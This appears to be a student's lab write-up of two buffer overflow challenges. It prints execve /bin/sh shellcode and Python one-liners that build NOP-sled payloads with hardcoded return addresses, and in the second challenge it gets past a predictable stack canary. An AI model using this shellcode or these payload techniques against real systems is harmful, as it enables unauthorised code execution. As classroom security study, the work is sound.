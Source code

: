 # Challenge 1

This one involves a buffer overflow attack.

We first use the shell code provided in class that runs the assembly to invoke a shell.

```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```

Then we run gdb on the binary to find the address of the buffer overflow. We found out that we have to overwrite about 80 bytes. With a 23 byte shell code, we pad the shell code with 39 NOPs, and 14 random bytes, then with the new return address we want to go to. With some trial and error with the padding and NOP sled, we are able to invoke the shell via the binary script.

```bash
 python -c "print '\x90'*39+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80'+'A'*10 +'B'*4+'\x7c\xad\xff\xbf'" > asd
```

# Challenge 2

This one is very similar to challenge 1. We can use the same distances between the buffer and return address as Challenge 1 but add 4 to it since instead of just a 64 byte buffer, we have an extra 4 byte buffer before that as well. So we have to overwrite 84 bytes.

This new code requires check of a canary at the position right after the buffer. So we need to add the canary value within our payload right after 64 bytes of something before. We can then add in the 4 byte canary value and add in the rest of the padding and return address to execute our injected shell code.

To get the value of the canary, I first flooded the 64 byte buffer with 63 A's (with the string terminator = 64 bytes). Then I inspected the stack and found the value right after the A's to be 0x726c576e. Upon looking at the raw c code, it's clear that the value won't change since rand() is used without a seed, so it will produce the same canary value every execution. We can put that canary value into our payload to bypass the canary check. Using the same process of using GDB to find the return

After a lot of trial and error, I was able to use the following

```bash
python -c "print '\x90'*41 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80'+ '\x6e\x57\x6c\x72' + 'A'*12 + '\x1c\x65\xff\xbf'" > asd2
```
